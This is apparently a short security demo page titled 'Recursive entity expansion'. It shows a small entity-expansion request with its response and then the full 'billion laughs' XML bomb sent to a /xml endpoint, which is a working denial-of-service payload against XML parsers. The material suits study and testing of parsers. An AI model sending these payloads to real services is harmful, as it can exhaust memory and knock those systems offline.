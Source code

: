 ### Recursive entity expansion 

POST /xml

```xml 

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY smiley "&#9786;" >
<!ENTITY s2 "&smiley;&smiley;&smiley;&smiley;&smiley;">
<!ENTITY s3 "&s2;&s2;&s2;&s2;&s2;&s2;&s2;&s2;&s2;&s2;&#x000A;">
<!ENTITY s4 "&s3;&s3;&s3;&s3;&s3;&s3;&s3;&s3;&s3;&s3;">]>
<foo> 
Yay! Smile! &s4;
</foo> 
``` 

RESPONSE 

``` 
Yay! Smile!
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺☺ 
``` 

---

POST /xml

```xml 
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]> 
<lolz>&lol9;</lolz> 
``` 

